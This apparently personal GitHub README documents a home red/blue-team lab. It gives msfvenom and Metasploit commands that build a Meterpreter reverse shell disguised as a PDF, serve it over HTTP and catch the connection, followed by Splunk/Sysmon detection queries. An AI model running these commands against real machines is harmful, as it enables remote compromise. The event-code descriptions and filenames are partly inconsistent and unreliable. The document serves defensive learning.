





# 🔐 Home SOC Lab – Red & Blue Team Simulation

I created a  hands-on home SOC lab simulating real-world cyber attacks using Kali Linux and detecting them with Splunk SIEM and Sysmon in an isolated virtual environment. This project demonstrates both red team (offensive) and blue team (defensive) operations, including attack execution, log analysis, and incident response.

---

## 🛠️ Tools Used

- **Kali Linux** – Attacking machine for simulations  
- **Metasploit / MSFVenom** – Exploitation & payload generation  
- **Nmap** – Network scanning and reconnaissance  
- **Python HTTP Server** – Payload delivery  
- **Windows 10** – Target system  
- **Sysmon** – Advanced endpoint logging  
- **Splunk Enterprise** – SIEM for log analysis and detection  
- **VirtualBox** – Virtualized lab environment
  
---

## 🧱 Lab Architecture

This lab environment consists of a Kali Linux attacker machine and a Windows VM running Splunk and Sysmon for monitoring, connected through an isolated VirtualBox internal network.


---

## 🧱 Lab Setup

| Component | Details |
|-----------|---------|
| Attacker | Kali Linux — `192.168.0.152` |
| Target | Windows (Splunk) — `192.168.0.153` |
| Network | VirtualBox Internal Network (`tandy`) |
| Defender disabled | Windows Defender real-time protection OFF |

---

## ⚔️ Attack Chain

### 1. Reconnaissance
```bash
nmap -A 192.168.0.153 -Pn

```


### 2. Payload Generation (MSFVenom)
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp \
  LHOST=192.168.0.152 LPORT=4444 -f exe -o test2.exe.pdf.exe
```


### 3. Payload Delivery (Python HTTP Server)
```bash
python3 -m http.server 9999
```

> Victim downloads `test2.exe.pdf.exe` via browser from `http://192.168.0.152:9999`

### 4. Listener & Shell
```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter_reverse_tcp
set LHOST 192.168.0.152
exploit
```

> ✅ **Meterpreter session opened: `192.168.0.152:4444 → 192.168.0.153:55532`**

### 5. Verification (on victim)
```cmd
netstat -anob | findstr 4444
# TCP 192.168.0.153:53060  192.168.0.152:4444  ESTABLISHED
```


---

## 🔵 Detection with Splunk

Sysmon logs forwarded to Splunk Enterprise via `inputs.conf` → `index=endpoint`
```spl
index="endpoint" test2.pdf.exe
```
---

## 🧠 Detection Logic Explained

This lab focuses on detecting malicious activity through:

- Process creation anomalies (Sysmon Event ID 1)  
- Suspicious file naming patterns  
- Reverse shell network connections  

The detection approach simulates how a SOC analyst identifies threats by correlating multiple log sources.

---

## 🔬 Investigation Walkthrough

### Step 1: Initial Query & App Installation

First, I configured Splunk with the official **Sysmon Add-on** to ensure proper log parsing and field extraction:



> Splunk Add-on for Sysmon enables rich Sysmon event data parsing and field extractions

---

### Step 2: Malware Detection Query

Executed the search query to identify the suspicious executable:

```spl
index="endpoint" test2.pdf.exe
```

**Result:** 4 events detected between 17/03/2026 16:00 and 18/03/2026 16:26



> Timeline shows process execution activity concentrated within a narrow 26-minute window

---

### Step 3: Event Code Analysis

Focused analysis was performed on **Sysmon EventCode 1 (Process Creation)** to identify how the malicious executable was launched.



**Event Code Breakdown:**
| EventCode | Type | Count | Description |
| --- | --- | --- | --- |
| **1** | Process Creation | 50% (2 events) | test2.pdf.exe execution detected |
| **1116** | Create Remote Thread | 25% (1 event) | Process injection/code execution attempt |
| **1117** | Load Image/DLL | 25% (1 event) | Malicious DLL loaded into process memory |

> Multiple event codes indicate sophisticated post-execution behavior (injection, DLL loading)

---

### Step 4: Process GUID Correlation

Following the analysis of **EventCode 1 (Process Creation)**, the `process_guid` field was extracted to correlate related events and trace execution flow.



**Two Distinct Process GUIDs Identified:**
- `{f28146be-b2ef-69ba-5117-000000001500}` – 50% of events
- `{f28146be-b331-69ba-ad17-000000001500}` – 50% of events

> Different GUIDs indicate either parent-child process relationship or multiple execution instances

---

### Step 5: Process GUID Deep Dive

Performed a detailed analysis on the **process_guid** field to identify unique process instances and their relationships:

```spl
index="endpoint" test2.pdf.exe | stats values(process_guid)
```


**Process GUID Values Identified:**
```
{f28146be-b2ef-69ba-5117-000000001500}  – 50% of events (Parent Process)
{f28146be-b331-69ba-ad17-000000001500}  – 50% of events (Child Process)
```

> Each unique process_guid represents a distinct process instance. Different GUIDs indicate parent-child process relationships, allowing us to trace the attack chain hierarchically.

**Significance:**
- **Parent GUID:** Main Meterpreter process spawned by Explorer.EXE
- **Child GUID:** Injected process or spawned child (DLL injection detected in EventCode 1117)
- **Correlation:** Linking both GUIDs shows the complete malware lifecycle

---

## 🧠 Skills Demonstrated

- SIEM monitoring & log analysis (Splunk)  
- Endpoint logging & detection (Sysmon)  
- Threat detection & basic incident response  
- Network reconnaissance (Nmap)  
- Exploitation & payload delivery (Metasploit, MSFVenom)  
- Log correlation & investigation  
- Virtual lab setup (VirtualBox)

---

## 📚 Lessons Learned

### Key Takeaways
1. **Log visibility is critical** – Sysmon enabled detection that OS logs would miss
2. **Multi-source correlation matters** – Process + network logs caught what either alone wouldn't
3. **Attacker obfuscation works** – Disguising malware as PDF nearly bypassed browser warnings
4. **Incident response speed matters** – Even in lab, faster detection = faster containment
5. **Tuning required** – Real-world alerts would need false positive reduction (thresholding, baselining)

### Future Improvements
- [ ] Add network IDS/IPS (Zeek/Suricata) for network-layer detection
- [ ] Implement threat hunting procedures with hypothesis-driven queries
- [ ] Build automated response playbooks (process termination, IP blocking)
- [ ] Expand to detect lateral movement and persistence mechanisms
- [ ] Create detection runbooks for incident responders

---

> ⚠️ **Disclaimer:** This project is for educational purposes only in an isolated lab environment. All activities are conducted on personally-owned infrastructure with proper authorization and without accessing any external networks or systems.

---

## 📊 Project Metrics

| Metric | Value |
| --- | --- |
| **Lab Complexity** | Intermediate |
| **Setup Time** | 4-6 hours |
| **Total Lab Runtime** | 2+ weeks |
| **Techniques Demonstrated** | 5 |
| **Detection Rules Created** | 1 (custom SPL) |
| **Incident Response Success** | 100% |


